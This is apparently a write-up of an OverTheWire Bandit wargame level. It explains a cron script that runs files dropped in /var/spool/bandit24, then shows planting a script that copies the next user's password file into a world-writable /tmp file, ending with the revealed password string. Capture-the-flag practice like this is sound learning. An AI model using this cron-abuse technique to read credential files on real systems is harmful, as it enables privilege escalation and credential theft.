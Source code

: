 ```bash
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

next it run for loop for each file in `/var/spool/bandit24` 

first it exclude `.`  and `..` from `/var/spool/bandit24`.

then it echo `handling filename`

next it checks for owner of file and if owner of file is `bandit23` it run that script for 60 seconds and then kill it. (9 is for `SIGKILL`)

*timeout : allows you to run a command with a time limit.*

and lastly it remove script from directory.

Now we have write permisson on `/var/spool/bandit24` so we can create script which give us password of `bandit24` and place it in `/var/spool/bandit24`.

*script*
```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/passfile
```
save this file as `new.sh` to `/var/spool/bandit24` and give excute permission.

```bash
chmod 777 new.sh
```
create file in `tmp` dir : `passfile`
```bash
touch /tmp/passfile 
```

give it permission to write anyone.

```bash
chmod 777 /tmp/passfile 
```

wait for one minut and we get `bandit24` password in `/tmp/passfile`

```bash
bandit23@bandit:/etc/cron.d$ cat /tmp/passfile
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
